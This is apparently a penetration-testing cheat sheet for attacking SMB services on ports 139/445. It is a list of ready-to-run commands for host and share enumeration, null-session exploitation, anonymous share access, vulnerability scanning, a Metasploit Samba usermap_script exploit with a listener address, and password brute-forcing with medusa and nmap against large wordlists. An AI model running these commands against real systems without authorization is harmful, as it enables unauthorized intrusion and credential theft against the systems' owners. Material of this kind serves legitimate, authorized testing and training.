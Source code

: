 ### Port 139/445 - SMB
```bash
# Enum hostname
enum4linux -n $IP
nmblookup -A $IP
nmap --script=smb-enum* --script-args=unsafe=1 -T5 $IP

# Get Version
smbver.sh $IP
Msfconsole;use scanner/smb/smb_version
ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]'
smbclient -L \\\\$IP

# Get Shares
smbmap -H  $IP -R <sharename>
echo exit | smbclient -L \\\\
smbclient \\\\$IP\\<share>
smbclient -L //$IP -N
nmap --script smb-enum-shares -p139,445 -T4 -Pn $IP
smbclient -L \\\\$IP\\

# Check null sessions
smbmap -H $IP
rpcclient -U "" -N $IP
smbclient //$IP/IPC$ -N

# Exploit null sessions
enum -s $IP
enum -U $IP
enum -P $IP
enum4linux -a $IP
/usr/share/doc/python3-impacket/examples/samrdump.py $IP

# Connect to username shares
smbclient //$IP/share -U username

# Connect to share anonymously
smbclient \\\\$IP\\<share>
smbclient //$IP/<share>
smbclient //$IP/<share\ name>
smbclient //$IP/<""share name"">
rpcclient -U " " $IP
rpcclient -U " " -N $IP

# Check vulns
nmap --script smb-vuln* -p139,445 -T4 -Pn $IP

# Check common security concerns
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc

# Extra validation
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_validate.rc

# Multi exploits
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost $IP; run

# Bruteforce login
medusa -h $IP -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt $IP  -vvvv
nmap –script smb-brute $IP

```